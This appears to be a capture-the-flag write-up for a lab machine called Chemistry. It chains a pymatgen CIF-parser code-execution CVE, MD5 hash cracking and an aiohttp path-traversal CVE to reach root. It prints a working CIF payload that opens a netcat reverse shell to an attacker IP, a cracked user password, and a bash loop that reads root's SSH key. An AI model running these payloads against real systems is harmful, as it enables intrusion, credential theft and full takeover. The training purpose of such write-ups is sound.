


# Chemistry

<div class="wu-meta" markdown="span">
<span class="wu-badge wu-os">:fontawesome-brands-linux: Linux</span>
<span class="wu-badge wu-diff wu-diff--easy">Easy</span>
<span class="wu-tags">
<span class="wu-tag">pymatgen RCE</span>
<span class="wu-tag">Hash cracking</span>
<span class="wu-tag">aiohttp path traversal</span>
<span class="wu-tag">SSH key read</span>
</span>
</div>

!!! abstract "What this box demonstrates"
    Chemistry pairs two named CVEs in Python libraries. A CIF analysis site accepts crystallographic files and parses them with a vulnerable `pymatgen` build, so a crafted file executes code (CVE-2024-23346) and lands a foothold. A SQLite database of MD5 password hashes cracks to a user, and an internal `aiohttp` service vulnerable to a path-traversal file read (CVE-2024-23334) hands over root's SSH key.

## Attack path

1. Register on the CIF Analyzer (port 5000) and upload a malicious CIF to trigger the `pymatgen` parser RCE (CVE-2024-23346) as the web user.
2. Loot the app's SQLite database, crack the `rosa` MD5 hash, and SSH in.
3. Forward the internal `aiohttp` service and exploit CVE-2024-23334 path traversal to read root's `id_rsa`, then SSH as root.

**Tools:** nmap, curl, sqlite3, hashid, hashcat, wfuzz, ssh.

## Enumeration

Set the target and scan:

```bash
IP=10.10.11.38

ports=$(nmap -p- --min-rate=1000 -T4 -n --open $IP | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed 's/,$//') && echo $ports
sudo nmap -p$ports -sC -sV $IP -oA scan_tcp
```

### Nmap results

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Werkzeug httpd (Python)
```

Port 5000 serves a "CIF Analyzer" — a portal that takes a Crystallographic Information File (CIF) and renders the molecule. Default logins fail, but the site lets you register your own account.

## Foothold

CIF files are parsed server-side by [pymatgen](https://pymatgen.org/), and the version in use is vulnerable to [CVE-2024-23346](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f) — the parser evaluates an expression embedded in the `_space_group_magn.transform_BNS_Pp_abc` field, which is straight code execution. Build a CIF whose payload spawns a reverse shell:

```
data_5yOhtAoR
_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("busybox nc 10.10.14.20 4444 -e /bin/bash");0,0,0'
```

Start a listener, upload the file, and view it to trigger the parser:

```bash
nc -lvnp 4444
```

The shell comes back as the web user. `user.txt` is present but owned by `rosa`, so it is off-limits for now. The application directory holds a SQLite database at `/instance/database.db` — exfiltrate it (a python HTTP server or a `nc` transfer both work) and read the users table:

```bash
sqlite3 database.db
sqlite> select * from user;
1|admin|2861debaf8d99436a10ed6f75a252abf
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
...
```

Those are unsalted MD5 digests. Crack `rosa`:

```bash
hashid 63ed86ee9f624c7b14f1d4f43dc251a5   # MD5
hashcat -m 0 -a 0 rosa.hash /usr/share/wordlists/rockyou.txt
```

??? success "Cracked rosa credentials"
    `rosa:unicorniosrosados`

SSH in as `rosa` and grab the user flag:

```bash
ssh rosa@10.10.11.38
```

## Privilege escalation

Enumeration (linpeas or a manual `ss -tlnp`) shows a service listening only on `127.0.0.1:8080`. Forward it to your machine:

```bash
ssh -L 8080:127.0.0.1:8080 rosa@chemistry.htb
```

Watching the traffic, the internal server identifies itself in the response headers:

```
Server: Python/3.9 aiohttp/3.9.1
```

<figure class="wu-evidence" markdown>

<figcaption>The forwarded service discloses <code>aiohttp/3.9.1</code> in its response headers, tying the target to CVE-2024-23334.</figcaption>
</figure>

aiohttp 3.9.1 is vulnerable to [CVE-2024-23334](https://github.com/z3rObyte/CVE-2024-23334-PoC), a path traversal in how it serves static routes: if a static route is configured without `follow_symlinks` restrictions, `../` sequences under the static prefix escape the intended directory. The public PoC assumes a `/static` prefix, but this app uses `/assets` — find it by fuzzing valid endpoints first:

```bash
wfuzz -c -z file,/usr/share/seclists/Discovery/Web-Content/raft-large-words.txt --hc 404 http://127.0.0.1:8080/FUZZ
# ... assets ...
```

<figure class="wu-evidence" markdown>

<figcaption>Endpoint discovery finds <code>/assets</code>, the static route required to adapt the public traversal proof of concept.</figcaption>
</figure>

Point the traversal at the static prefix and walk up to root's SSH key:

```bash
#!/bin/bash
url="http://localhost:8080"
payload="/assets/"
file="root/.ssh/id_rsa"

for ((i=0; i<15; i++)); do
    payload+="../"
    code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    if [[ $code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

Save the recovered key, fix its permissions, and log in as root:

```bash
chmod 600 id_rsa
ssh -i id_rsa root@chemistry.htb
```

!!! warning
    Keep the recovered `id_rsa` off any network share — permissions won't survive the copy, and SSH will refuse a world-readable key.
